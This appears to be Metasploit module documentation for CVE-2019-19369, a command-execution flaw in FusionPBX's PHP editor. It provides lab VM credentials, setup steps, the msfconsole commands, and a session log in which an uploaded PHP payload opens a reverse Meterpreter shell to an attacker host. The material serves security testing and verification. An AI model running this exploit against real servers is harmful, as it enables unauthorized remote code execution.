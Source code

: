 ## Vulnerable Application
CVE-2019-19369
1. [Vendor site](https://fusionpbx.com/)
### Creating A Testing Environment
The vendor has patched this issue. I have kept a copy of the version for demo purposes:
https://mega.nz/#!yiRigCAI!9Qt2g3wrQy3oLHAjf8uN2sz6dWkuhd4QV-G8G1FGv4k

Download the OVF from the link provided and import OVF.

Username: root<br>
Password: fusion

Database Password: bckfRgOxcFitVIsPRKVlmuvjfU


```
1. login as root on machine
2. cd /etc/fusionpbx
3. mv config.php config1.php
4. on web browser, visit https://ip/
5. set new admin password on the web ui prompt
6. on the next page insert database password into the database configuration 
7. submit and exploit
```

## Verification

Do:
```
    use exploit/linux/http/fusionpbx_php_editor_cmd_exec
    set RHOST target_ip
    set RPORT 443
    set SSL true
    set USERNAME login_username
    set PASSWORD login_password
    exploit
```

## Scenario
```
root@TheCyberGeek:~/# msfconsole
msf5 > use exploit/linux/http/fusionpbx_php_editor_cmd_exec
msf5 exploit(linux/http/fusionpbx_php_editor_cmd_exec) > set RHOST 192.168.0.48
msf5 exploit(linux/http/fusionpbx_php_editor_cmd_exec) > set RPORT 443
msf5 exploit(linux/http/fusionpbx_php_editor_cmd_exec) > set SSL true
msf5 exploit(linux/http/fusionpbx_php_editor_cmd_exec) > set USERNAME admin
msf5 exploit(linux/http/fusionpbx_php_editor_cmd_exec) > set PASSWORD fusion
msf5 exploit(linux/http/fusionpbx_php_editor_cmd_exec) > exploit
msf5 exploit(linux/http/fusionpbx_php_editor_cmd_exec) > run
[*] Started reverse TCP handler on 192.168.0.12:4444 
[+] Login Successful!
[*] 192.168.0.48:443 - Sending PHP payload (/var/www/fusionpbx/project_root.php)
[+] Uploaded Successfully!
[*] 192.168.0.48:443 - Executing project_root.php...
[*] Sending stage (38288 bytes) to 192.168.0.48
[*] Meterpreter session 2 opened (192.168.0.12:4444 -> 192.168.0.48:51374) at 2020-01-20 07:22:05 +0000
meterpreter > getuid
Server username: www-data (33)
meterpreter > 
```

